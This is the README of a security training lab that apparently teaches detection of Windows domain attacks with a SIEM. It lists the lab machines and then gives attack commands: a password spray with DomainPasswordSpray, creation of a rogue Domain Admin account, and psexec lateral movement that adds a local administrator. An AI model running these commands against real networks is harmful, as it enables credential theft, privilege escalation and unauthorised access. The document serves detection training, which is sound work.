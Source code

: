 # Lab Setup

## Infrastructure
- Your infrastructure can really be hosted anywhere.
  - Locally via vmware, virtualbox, etc
  - In the cloud via Azure, GCP, AWS
  - Prod? (j/k)

- They should be in all the same network 

### 1. Windows Domain Controller
- Specs
  - supported OS version
  - [Logmira](https://github.com/Blumira/Logmira) (Either reduced or full verbosity is fine)

### 2. Windows Endpoint
- Joined to above domain
- Installs
  - Download and install [Wireshark](https://www.wireshark.org/)
  - Clone [Domain Password Spray from @dafthack](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1)
  - Download both usernames.txt and passlist.txt from this github directory

### 3. Kali Linux

### 4. Optional - Whatever you need for SIEM?
In my case you will see in the demos that I'm using a Blumira sensor. This is an Ubuntu box with a docker container that has a [Blumira](https://www.blumira.com) sensor installed on it. Because this isn't a SIEM training, it's difficult to go through a full lab setup of something like ELK or Splunk. 

We will cover in all lab demos finding event IDs in windows event viewer, but then also the concept of what they would look like in a SIEM as well. For in person trainings, everyone will be provided with logins to the Blumira platform during the class.

## Scripts/Commands

1. [Domain Password Spray from @dafthack](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1)
   - Right-click, run powershell as admin
```
CD *directory that you've cloned the powershell script into*
Get-ExecutionPolicy
Set-ExecutionPolicy Unrestricted
Import-Module .\DomainPasswordSpray.ps1
https://github.com/dafthack/DomainPasswordSpray
Cd C:/DNDShare
Invoke-DomainPasswordSpray -UserList userlist.txt -Domain forgottenforest.local -PasswordList passlist.txt -OutFile sprayed-creds.txt
```
2. Creating a Domain Admin
- Create a DNDUsers OU in Active Directory Users & Computers on the DC
```
Set-ExecutionPolicy Unrestricted
Import-Module ActiveDirectory
New-ADUser -Name "HP Lovecraft" -GivenName "HP Lovecraft" -SamAccountName "hplovecraft" -UserPrincipalName "hplovecraft@forgottenforest.local" -Path "OU=DNDUsers,DC=domain,DC=local" -AccountPassword(Read-Host -AsSecureString "Type Password for User") -Enabled $true
Add-ADGroupMember -Identity “Domain Admins” -Members hplovecraft
```
3. Data Exfil & Network Forensics


4. Lateral Movement
- Psexec add user to another host
```
CD into psexec directory
psexec.exe \\MagicRainbowPC.domain.local -u DNDUser -p passwordhere cmd
net user MyNewUser MyPassword#@$ /add
net localgroup administrators MyNewUser /add
```
